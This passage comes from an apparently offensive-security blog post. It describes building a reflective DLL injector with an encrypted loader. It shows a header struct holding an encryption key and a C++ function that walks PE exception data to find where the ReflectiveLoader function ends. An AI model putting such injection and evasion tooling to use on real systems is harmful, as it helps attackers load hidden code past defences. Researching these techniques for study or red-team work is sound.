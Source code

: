 Given this new requirements, I have decided to still use this structure to carry the needed information for the YOLO loader to work, and a slightly bigger encryption key: 

```cpp
typedef struct _DLL_HEADER {
    DWORD header; //4 bytes header
    DWORD key; //4 bytes encryption key
    SIZE_T ReflectiveLoaderfuncSize; //8 bytes
} DLL_HEADER, * PDLL_HEADER;
```

Let’s stop ranting about ideas and dive into the real code. 

## The Code

Alright, now that the idea is pretty much defined let’s take a look at the code. 

### ReflectiveDLLInjector

Starting from the first [ReflectiveDLLInjector](https://github.com/oldboy21/RflDllOb/tree/main/ReflectiveDLLInjector) what’s new is: 

```cpp
//function that finds the End address of a given function
PBYTE findFunctionEnd(PBYTE dllBase, PBYTE loaderAddressRaw) {

    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)dllBase;
    if (pDosHeader->e_magic != IMAGE_DOS_SIGNATURE) {
        return NULL;
    }
    PIMAGE_NT_HEADERS pNtHeader = (PIMAGE_NT_HEADERS)(dllBase + pDosHeader->e_lfanew);
    if (pNtHeader->Signature != IMAGE_NT_SIGNATURE) {
        return NULL;
    }
    IMAGE_FILE_HEADER fileHeader = pNtHeader->FileHeader;
    IMAGE_OPTIONAL_HEADER optionalHeader = pNtHeader->OptionalHeader;
    vector<PIMAGE_SECTION_HEADER> peSections;
    for (int i = 0; i < fileHeader.NumberOfSections; i++) {
        //starting from the pointer to NT header + 4(signature) + 20(file header) + size of optional = pointer to first section header. 
        // to get to the next i multiply the index running through the number of sections multiplied by the size of section header 
        peSections.insert(peSections.begin(), (PIMAGE_SECTION_HEADER)(((PBYTE)pNtHeader) + 4 + 20 + fileHeader.SizeOfOptionalHeader + (i * IMAGE_SIZEOF_SECTION_HEADER)));
    }
    PRUNTIME_FUNCTION pRuntimeFunction = (PRUNTIME_FUNCTION)(dllBase + Rva2Raw(optionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXCEPTION].VirtualAddress, peSections, (int)fileHeader.NumberOfSections));
    for (DWORD i = 0; i < optionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXCEPTION].Size / sizeof(RUNTIME_FUNCTION); ++i) {
        // Access the fields of each RUNTIME_FUNCTION structure
        if ((LPVOID)Rva2Raw(pRuntimeFunction[i].BeginAddress, peSections, (int)fileHeader.NumberOfSections) == loaderAddressRaw) {
            //return the end address of the function that matches the beginaddress of the ReflectiveLoader
            return (PBYTE) Rva2Raw((pRuntimeFunction[i].EndAddress-1), peSections, (int)fileHeader.NumberOfSections);
        }
    }
    return 0;
}
```
